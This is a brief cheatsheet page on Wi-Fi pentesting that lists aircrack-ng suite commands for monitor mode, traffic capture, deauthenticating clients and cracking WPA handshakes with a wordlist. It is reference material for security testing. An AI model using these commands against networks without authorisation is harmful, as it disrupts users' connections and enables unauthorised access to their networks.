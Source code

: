 ```yaml
---
layout: page
title:  "Wifi hacking"
permalink: "pentesting-wifi.html"
tags: [security, pentesting]
summary: "A cheatsheet for WIFI hacking. For the description of the protocols, have a look at the networking section."
---
```



* Start monitor mode: `airmon-ng start $DEV`
* Capture data: `airodump-ng`
* Deauthenticate clients: `aireplay-ng -0 1 -a $BSSID $DEV`
* Crack WPA: `aircrack-ng -a2 -b $BSSID -w wordlist.txt file-with-handshake.cap`
